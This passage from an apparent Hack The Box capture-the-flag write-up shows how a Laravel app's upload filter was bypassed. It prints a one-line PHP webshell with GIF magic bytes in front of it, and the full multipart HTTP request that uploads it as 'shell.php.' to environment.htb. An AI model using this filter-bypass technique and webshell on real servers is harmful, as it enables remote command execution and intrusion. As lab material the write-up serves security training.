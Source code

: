![](images/2025-05-04_11-44_80_dashboard_profile.png)

There was a `upload filter` in place which we `bypassed` by adding `GIF Magic Bytes`, changed the `Content-Type` to `image/gif` and renaming our `webshell` from `shell.php.jpg` to `shell.php.` with a `dot` at the end.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ cat shell.php.jpg 
GIF89a
<?php system($_GET['cmd']); ?>
```

```shell
POST /upload HTTP/1.1
Host: environment.htb
Content-Length: 360
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDBJuJf9TC23GKTvR
Accept: */*
Origin: http://environment.htb
Referer: http://environment.htb/management/profile
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6Ik8yVktLcGFBTjVTclZ1S2ZhQlIyb1E9PSIsInZhbHVlIjoialE4OUVSaXlVbWt0MzhqdVBabk4rR1ROVVBMSEZQeDNFdHkwUjUrL2Z3bHVFVmhYWThHU1h4MXExZHBJa3FDeVdIWG5YZFh3UGdRb0NSdkE3Ti9SR1NSUDlSc0lOZ1dDT2VPb1RwMUkvNjBsR1hkNkEvemZmYmJZNDYySGxNUU0iLCJtYWMiOiIyZjk1MzU1ZTMzZTYwYjZlNDFhNjNiZmI3NTJiZmJkOWExMTkyNjU2MDhhZmY4ODY1ZDQzZTc1ZGZmYjlkZDI4IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Imh0am8rTS9vbDRwZjg5WEU0L3BxaGc9PSIsInZhbHVlIjoidVNMT09jT3J5TnVxYi9JUGhJajFIalJ1MVhJOGNNWnZiZU5KQkJwa3JBZGRCTy82ZzB3UTZ1eDZPQmwyTGE4Rk4wYndnWnJMSDJjbzcyMmpOKzRobWh4VENCTmFST0NzNGdNQnF0UGdlZ29JdXVaTzBzbTR2NzN1ZnQ3QTF1ejAiLCJtYWMiOiIzYjQyZjhhYTBjOGY3OTQ0NDFkMTNmOGI3ZjQxM2IzNzkxOGIwNWZjZGEyY2I4YzVkZjU5ZTVkMzlhNTUyY2RlIiwidGFnIjoiIn0%3D
Connection: keep-alive

------WebKitFormBoundaryDBJuJf9TC23GKTvR
Content-Disposition: form-data; name="_token"

Vv6nlKZcvkC0uiLuuUwsCGdfX9j6Z2DtDpFNGpqL
------WebKitFormBoundaryDBJuJf9TC23GKTvR
Content-Disposition: form-data; name="upload"; filename="shell.php."
Content-Type: image/gif

GIF89a
<?php system($_GET['cmd']); ?>
```